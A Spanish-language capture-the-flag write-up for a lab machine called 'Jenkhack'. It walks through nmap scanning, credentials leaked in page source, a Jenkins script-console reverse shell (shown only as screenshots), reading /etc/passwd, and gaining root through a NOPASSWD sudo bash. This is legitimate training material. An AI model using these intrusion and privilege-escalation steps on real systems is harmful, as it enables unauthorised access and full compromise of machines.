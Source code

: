 # Maáquina Jenkhack

### puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

## servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80,443,8080 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

![alt text](image-2.png)

## Entrando en la web por el puerto 80

al inspeccioar la web con ctrl + u -> http://172.17.0.2:80

encontramos esto:
jenkins-admin
cassandra

luego entramos por el puerto 8080 y son las credenciales:

![alt text](image-3.png)


## Intrusion

Estando dentro del jenkins, iremos a /script, esto nos llevará a una script conosole que nos permitirá ejecutar comandos. Para enviarnos una reverse shell, debemos ejecutar esto:

![alt text](image-4.png)

![alt text](image-5.png)

tratamiento de la tty

hicimos cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
jenkins:x:101:103:Jenkins,,,:/var/lib/jenkins:/bin/bash
jenkhack:x:1001:1001:jenkhack,,,:/home/jenkhack:/bin/bash


hicimos cat /var/www/jenkhack/note.txt


con cyberchef:

![alt text](image-6.png)


## cambiando al usuario jenkhack

su jenkhack:

jenkinselmejor



## Escalar privilegios

siendo el usuario jenkhack:

sudo -l 

User jenkhack may run the following commands on e952d5e5bb18:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash


eliminamos el archivo en opt bash.sh

creamos uno nuevo

nano bash.sh 

#!/bin/bash

exec /bin/bash

le damos permisos de ejecucion chmod +x bash.sh

sudo /usr/local/bin/bash y listo somos root !!!

